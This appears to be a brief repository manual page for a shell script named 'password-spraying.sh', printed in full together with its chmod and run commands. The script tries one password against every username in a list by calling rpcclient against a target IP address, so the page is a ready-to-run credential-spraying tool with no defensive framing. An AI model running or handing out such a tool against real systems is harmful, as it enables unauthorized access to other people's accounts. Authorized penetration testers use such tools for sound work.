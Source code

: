 # Manual

`$ cat password-spraying.sh`

---

```bash
#!/bin/sh

for username in `cat $1`
do
    echo -n "[*] user: $username" && rpcclient -U "$username%$2" -c "getusername;quit" $3
done
```

`$ chmod +x password-spraying.sh`

`$ ./password-spraying.sh users.lst <password> <IP>`